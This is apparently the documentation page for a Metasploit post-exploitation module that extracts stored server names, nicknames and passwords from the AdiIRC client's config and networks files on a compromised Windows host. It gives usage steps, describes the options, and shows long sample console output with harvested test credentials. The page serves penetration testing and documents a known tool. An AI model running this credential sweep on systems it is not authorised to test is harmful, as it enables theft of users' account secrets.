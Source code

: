 ## Vulnerable Application

  This post-exploitation module extracts clear text credentials from the Adi IRC Client.

  The Adi IRC Client is avaialble from (https://www.adiirc.com/).

  This module extracts information from the config.ini and networks.ini files in the "AppData\Local\AdiIRC" directory.

  This module extracts server information such as server name, server port, user name, and password.


## Verification Steps

1. Start MSF console
2. Get a Meterpreter session on a Windows system
3. use post/windows/gather/credentials/adi_irc
4. Set SESSION 1
5. enter 'run' to extract credentials from all applications


## Options
### VERBOSE

By default verbose is turned off. When turned on, the module will show information on files
which aren't extracted and information that is not directly related to the artifact output.


### STORE_LOOT
This option is turned on by default and saves the stolen artifacts/files on the local machine,
this is required for also extracting credentials from files using regexp, JSON, XML, and SQLite queries.


### EXTRACT_DATA
This option is turned on by default and will perform the data extraction using the predefined
regular expression. The 'Store loot' options must be turned on in order for this to take work.

## Scenarios
### Default Output
```
msf6 post(windows/gather/credentials/adi_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Adi irc's Config file found
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.bak
[*] Adi irc Config.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083920_default_10.0.0.2_AdiIRCconfig.ba_051695.bak

[+] serverhost=chat.freenode.net
[+] Serverhost=irc.test.net
[+] serverport=6667
[+] Serverport=6667
[+] Usernick=TheTester
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_EXTRACTIONconfig_949744.bak
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.ini
[*] Adi irc Config.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_AdiIRCconfig.in_618977.ini

[+] serverhost=chat.freenode.net
[+] Serverhost=irc.test.net
[+] serverport=6667
[+] Serverport=6667
[+] Usernick=TheTester
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_EXTRACTIONconfig_981500.ini
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083921_default_10.0.0.2_AdiIRCnetworks._976889.ini

[+] File with data saved:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_EXTRACTIONconfig_407804.ini
[*] Adi irc's Networks file found
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_AdiIRCnetworks._497206.ini

[*] undefined method `each' for nil:NilClass
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.bak
[*] Adi irc Networks.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083922_default_10.0.0.2_AdiIRCnetworks._102963.bak

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

### Verbose Output
```
msf6 post(windows/gather/credentials/adi_irc) > run

[*] Filtering based on these selections:  
[*] ARTIFACTS: All
[*] STORE_LOOT: true
[*] EXTRACT_DATA: true

[*] Starting Packrat...
[-] Adi irc's base folder not found in user's user directory

[-] Adi irc's base folder not found in user's user directory

[*] Starting Packrat...
[*] Adi irc's base folder found
[*] Found the folder containing specified artifact for config.
[*] Adi irc's Config file found
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.bak
[*] Adi irc Config.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083813_default_10.0.0.2_AdiIRCconfig.ba_900175.bak

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverhost=chat.freenode.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverhost=irc.test.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Usernick=TheTester
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_209914.bak
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\config.ini
[*] Adi irc Config.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCconfig.in_918837.ini

[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverhost=chat.freenode.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverhost=irc.test.net
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Serverport=6667
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] Usernick=TheTester
[*] Searches for credentials (USERNAMES/PASSWORDS)
[+] QuickPassword=tiaspbiqe2r
[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_383684.ini
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCnetworks._579169.ini

[+] File with data saved:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_EXTRACTIONconfig_073623.ini
[*] Adi irc's base folder found
[*] Found the folder containing specified artifact for networks.
[*] Adi irc's Networks file found
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.ini
[*] Adi irc Networks.ini downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083814_default_10.0.0.2_AdiIRCnetworks._045399.ini

[*] undefined method `each' for nil:NilClass
[*] Processing C:\Users\test\AppData\Local\AdiIRC
[*] Downloading C:\Users\test\AppData\Local\AdiIRC\networks.bak
[*] Adi irc Networks.bak downloaded
[+] File saved to:  /home/kali/.msf4/loot/20240508083815_default_10.0.0.2_AdiIRCnetworks._439992.bak

[*] undefined method `each' for nil:NilClass
[*] PackRat credential sweep Completed
[*] Post module execution completed
```

